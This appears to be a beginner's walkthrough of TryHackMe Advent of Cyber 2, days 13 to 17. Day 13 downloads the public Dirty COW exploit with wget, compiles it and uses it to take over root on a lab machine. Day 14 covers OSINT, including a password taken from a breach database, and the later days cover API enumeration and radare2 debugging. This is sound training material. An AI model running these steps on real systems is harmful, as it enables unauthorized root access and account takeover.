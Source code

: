 # [Advent of Cyber 2 [2020]](https://tryhackme.com/room/adventofcyber2)

> Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 13: Coal for Christmas

scan the target

```
nmap -sS -sV -T4 10.10.22.125
```

![image](https://user-images.githubusercontent.com/90561566/222445181-223f51f0-5577-4723-92ea-b5e2d54c69cd.png)

telnet into the server, it also gives us the password

![image](https://user-images.githubusercontent.com/90561566/222445565-399e1120-7579-4ab7-9403-b902ba5b5020.png)

we have some infor here

![image](https://user-images.githubusercontent.com/90561566/222446673-60a84c7b-91cf-4c8a-92e7-268576e4c0e3.png)

quick research the file, you will found a version here

```
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```

transfer the file

![image](https://user-images.githubusercontent.com/90561566/222449024-13b9372a-8cf0-43ee-ab33-446d396b19b3.png)

run the file

```
gcc -pthread dirty.c -o dirty -lcrypt
```

![image](https://user-images.githubusercontent.com/90561566/222449198-2b06197c-57bc-414d-84c4-39635464a6d9.png)

we have changed password of an root's user

![image](https://user-images.githubusercontent.com/90561566/222449583-96b6909f-295c-476f-8713-df0c1376ac28.png)

there is an instruction for you

![image](https://user-images.githubusercontent.com/90561566/222449891-e6e847f8-077a-48de-83c5-d8e95690d12f.png)

```
touch coal
tree | md5sum
```

![image](https://user-images.githubusercontent.com/90561566/222450055-2de4cf16-d2d2-4c70-9e0b-937620be0c76.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459180-070864b2-ba15-4177-8bcc-c797b95871d4.png)

![image](https://user-images.githubusercontent.com/90561566/222459226-44c19abd-3fcd-4d45-94e4-02bc1033303e.png)

![image](https://user-images.githubusercontent.com/90561566/222459284-91e5153f-628b-4ef5-bd36-9f042d9bee2c.png)

![image](https://user-images.githubusercontent.com/90561566/222459539-0d9dbc52-dd86-436d-afef-0dc72c88031f.png)

## Day 14: Where's Rudolph?

search his username on google, i see 2 social accounts: twitter and reddit

![image](https://user-images.githubusercontent.com/90561566/222453488-5f7b6f64-18eb-47b5-a223-b9f2d2ce5ced.png)

in his reddit account, click tab comments

![image](https://user-images.githubusercontent.com/90561566/222452436-7b89398a-1d32-47ac-a0c2-dc0b8cf19b59.png)

search robert in google, you will found the next question

![image](https://user-images.githubusercontent.com/90561566/222453138-b534da7f-8391-4ac0-accd-25d4d11d89f4.png)

on his twitter, search for a tv show, it's bachelorette

![image](https://user-images.githubusercontent.com/90561566/222454717-afd87fea-fe18-4112-b34f-cc4f058b7769.png)

he has posted 2 images, on google image, you can find it's chicago

![image](https://user-images.githubusercontent.com/90561566/222455870-52d65996-9a0f-46ef-9d50-07af641e0867.png)

download the high resolution image and check for the exif infor

```
exiftool lights-festival-website.jpg
```

also in the exif data, they have a GPS Position and copyright infor contain our flag

search his email in scylla.sh, his password was reveal as spygame

Use the GPS Position we found earlier on openstreetmap, Look for the nearest Hotel: Chicago Marriott Downtown Magnificent Mile

![image](https://user-images.githubusercontent.com/90561566/222461664-bcd60506-be12-4de6-8a4d-8fbe93786ff4.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/222459653-6cea6b2b-e719-47b0-8522-d2079745acec.png)

![image](https://user-images.githubusercontent.com/90561566/222459699-ca29013c-cca1-4ed4-8f16-881c0f057d61.png)

## Day 15: There's a Python in my stocking!

Answer:

![image](https://user-images.githubusercontent.com/90561566/223003711-6e051157-8dfa-47dd-ab5a-a547fd42c981.png)

## Day 16: Help! Where is Santa?

scan the target

```
nmap -sS -sV -Pn -T4 10.10.167.235
```

![image](https://user-images.githubusercontent.com/90561566/223004718-fcee83a5-9a6d-424c-a998-9a8e7588b336.png)

view the webpage

![image](https://user-images.githubusercontent.com/90561566/223004863-4f0cc154-9714-444c-8906-a70ab04d1dfd.png)

just guessing, the api is in /api/

![image](https://user-images.githubusercontent.com/90561566/223005034-3bd10fd8-8ce4-4053-b861-45d56dee6061.png)

now, create a script python to solve the question

```
#! /usr/bin/env python
import requests
url = 'http://10.10.167.235/api/'

for i in range(1, 100, 2):
    r = requests.get(url + str(i))
    print(r.text)
```

![image](https://user-images.githubusercontent.com/90561566/223005618-965677ff-7860-46d0-827c-c3f6a0388116.png)

```
python3 script.py
```

![image](https://user-images.githubusercontent.com/90561566/223005728-f1f7cada-2165-4f1e-8e2e-4f1d0984547a.png)

Answer:

![image](https://user-images.githubusercontent.com/90561566/223005807-ae7a22f6-cba8-49f6-9564-795658b9f01f.png)

## Day 17: ReverseELFneering

ssh to the machine with given credentials

![image](https://user-images.githubusercontent.com/90561566/223635537-33646fca-8c03-416b-a3fe-5827da75ca26.png)

+ `db`: set a breakpoint
+ `dc`: move to next breakpoint
+ `ds`: move 1 line
+ `pdf @main`: again to see current point

analyst the program

```
r2 -d ./file1
aa
afl | grep main
```

![image](https://user-images.githubusercontent.com/90561566/223636831-f88f0eeb-68e5-4693-9431-bfeaf1de2614.png)

print the main function

```
pdf @main
```

![image](https://user-images.githubusercontent.com/90561566/223636991-87add459-e698-4f73-8e3c-a9fe3f583dac.png)

set a breakpoint and debug

```
db 0x00400b55
dc
px @rbp-0xc
```

![image](https://user-images.githubusercontent.com/90561566/223638692-7b0d1605-fb33-40d9-a139-982c14a90c51.png)

next and view again

```
ds
px @rbp-0xc
```

![image](https://user-images.githubusercontent.com/90561566/223638899-7516b65d-a0d2-453c-8cf2-86df538345e3.png)

next 4 lines and view other variable

```
ds
ds
ds
ds
px @rbp-0xb
```

back to our challenge

![image](https://user-images.githubusercontent.com/90561566/223647767-4791f146-2444-4bf4-8da8-490d1eb51aa2.png)

quick view, i can know that

+ `mov dword [local_ch], 1`: move local_ch to 1 (local_ch=1)
+ `mov dword [local_8h], 6`: move local_8h to 6 (local_8h=1)
+ `mov eax, dword [local_ch]`: move eax to local_ch (eax=1)
+ `imul eax, dword [local_8h]`: multiple eax with local_8h (eax=6)
+ `mov dword [local_4h], eax`: move local_4h to eax (local_4h=6)

To do that, you can read the instruction

```
leaq source, destination: this instruction sets destination to the address denoted by the expression in source
addq source, destination: destination = destination + source
subq source, destination: destination = destination - source
imulq source, destination: destination = destination * source
salq source, destination: destination = destination << source where << is the left bit shifting operator
sarq source, destination: destination = destination >> source where >> is the right bit shifting operator
xorq source, destination: destination = destination XOR source
andq source, destination: destination = destination & source
orq source, destination: destination = destination | source
```

Answer:

![image](https://user-images.githubusercontent.com/90561566/223648903-72a5d26d-2509-466f-a6f6-5535c967b3ed.png)
